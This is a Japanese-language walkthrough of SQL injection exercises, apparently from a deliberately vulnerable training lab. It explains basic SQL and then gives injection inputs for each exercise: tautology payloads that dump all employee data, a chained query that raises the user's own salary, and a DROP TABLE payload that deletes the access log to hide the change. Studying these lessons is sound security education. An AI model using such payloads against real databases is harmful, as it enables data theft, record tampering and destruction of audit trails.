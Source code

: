 # (A1)Injection 節の問題の回答
DBとそれを扱うためのSQLの基本的な知識が要求されます。私はあまりDBに関して詳しいほうではないのでわからない部分は調べながら回答しました。
SQLInjectionという攻撃であっても、使う知識自体は意外と基本的なモノが多いことに驚きました。

## 2 What is SQL?
まずはSQLの基本の確認から。Bob Francoさんのdepartmentを確認しましょう。
ここではAdmin権限をすでに得ているため普通のQueryを組み立てます
```SQL
SELECT department FROM employees WHERE first_name = 'Bob' and last_name = 'Franco';
```
Tableの内容も見えているので、Bob Franco氏のdepartmentを抽出してクリア。
このテーブルの内容ならand last name = 'Franco'はなしでも動くとは思いますが一応記述します。

## 3 Data Manipulation Language 
上と同じくAdmin権限は持っているので、言われた通りTableを書き換えます
Tobi BarnettさんのdepartmentをSalesに変更します
```SQL
UPDATE employees SET department = 'Sales' WHERE first_name = 'Tobi' AND last_name = 'Barnett';
```
UPDATE文を使ってemployeesテーブル内の指定した行の該当データを書き換えました

## 4 Data Definition Language
employees Tableに"phone"というVARCHAR(20)のcolumn(列)を追加しましょう
```SQL
ALTER TABLE employees ADD phone VARCHAR(20);
```
データ型指定の後、明示的にNULLを示したほうが良い...のか?(DB弱者)

## 5 Data Control Language 
grant_rights Table に対する権限を unauthorized_userに対して与えます
```SQL
GRANT ALL PRIVILEGES ON grant_rights TO unauthorized_user;
```
ALL PRIVILEGESはSELECT,INSERT,DELETE,UPDATEのすべての権限を与えます。
ちなみに、GRANTとは逆に、権限を取り消してアクセスできないようにしたい場合はREVOKEを使用します。構文はほぼ同じです。

## 9 Try It! String SQL injection 
ここからSQLInjectionについての勉強が始まります。まずは練習として選択肢から正しい選択を選んでいきましょう。ページに提示されている説明文を解釈すると、
```SQL
SELECT FROM user_data WHERE first_name = 'John' AND last_name = ' [入力されたデータがここに入る] ';
```
というSQL文が実行されることが示されているので、それをヒントに解いていきましょう。
まず最初の選択肢を **Smith'** にすることで、 last_name = 'Smith' となり、
次にorを選択し、最後に **'1' = '1** を選択すると
```SQL
SELECT FROM user_data WHERE first_name = 'John' AND last_name = 'Smith' or '1' = '1' ;
```
という文章が出来上がり、条件式を左から順番に評価すると常に結果がTRUEとなるのですべてのユーザに関するデータが出力されます

## 10 Try It! Numeric SQL injection
入力フィールドは数字であることが期待されているので、それを考慮したうえで文章を組み立てる必要があります。
最初のフィールド(Login_Count)に**適当な数字**、次のフィールドに **1 or 1 = 1**といったように、適当な数字の後に or 1 = 1 という文を追加することで常にTRUEの条件を成立させることができ、正解となります。この場合組み立てらた文章は以下のようになります
```SQL
SELECT * From user_data WHERE Login_Count = 0 and userid= 1 or 1=1;
```

## 11 Compromising confidentiality with String SQL injection
SQLを用いてテーブル内のほかのemployeesの情報を取得することが目的です。
このページでは自分の名前がJohn Smithであること、現在割り当てられているTAN-(Transaction Authorization number:トランザクション認証番号)Transactionを承認するための使い捨てのワンタイムパスワード-が提示されていますが、これらは無くてもこの問題を解くことができました。
Employee Name のフィールドに **foo** 
Authentication TAN のフィールドに **bar' or '1'='1**
と入力することで、
```SQL
SELECT * FROM employees WHERE last_name = 'foo' AND auth_tan = 'bar' OR '1' = '1';
```
という文章が組み立てられ、条件が常にTRUEとなりすべてのデータを閲覧できます。

## 12 Compromising Integrity with Query chaining
11の結果を見ると、どやらTobi と Bob が私よりもたくさん給料をもらっているらしいことが分かりました。私はもちろん放っておけないらしいので自分の給料を上げることにしたそうです。

Employee Nameフィールドには**foo**を
Authentication TANフィールドには**bar'; UPDATE employees SET salary = 10000000  WHERE first_name = 'John' and last_name = 'Smith**
と入力します。一度エディタで組み上げてから入力したほうがいいですね。
これによって以下の2つQueryが実行されると考えられます
```SQL
SELECT * FROM employees WHERE last_name = 'foo' AND auth_tan = 'bar'; 
UPDATE employees SET salary = 10000000  WHERE first_name = 'John' and last_name = 'Smith
```
上のSELECT文はこの問題とあまり関係がなく、問題は下です。
フィールド内に;を追加したことによりQueryが一度終了し、そのあとから新しいQueryを自分で組み立て、実行してsalaryを書き換えています。(Query chaining)
ダイナミック昇給の成功です。良かったですね。

## 13 Compromising Availability
給料を書き換えたことがバレるとまずいのでログを格納するテーブルを完全に削除することにしたようです。ページにはアクションを検索する窓があるのでそこに対してInjectionを行いましょう  
アクションの検索では検索する単語が含まれているかどうかの判断にLIKE文が使用されていることが予想でき、Hintには"SELECT * FROM access_log WHERE action LIKE '%" + action + "%'"とあります。actionの中に入力した文字列が入るので、後ろの%を読み飛ばす必要があり、この場合コメントアウト"--"が使えます  
foo';DROP TABLE access_log;と検索フィールドに入力することで
```SQL 
SELECT * FROM access_log WHERE action LIKE '%foo';DROP TABLE access_log;--%
```
という文が組み立てられ、Query chainingによってTABLEをDROPすることができます。
ちなみにDROPすると対象のオブジェクトが完全に削除され、ロールバック付加できず表構造も残りません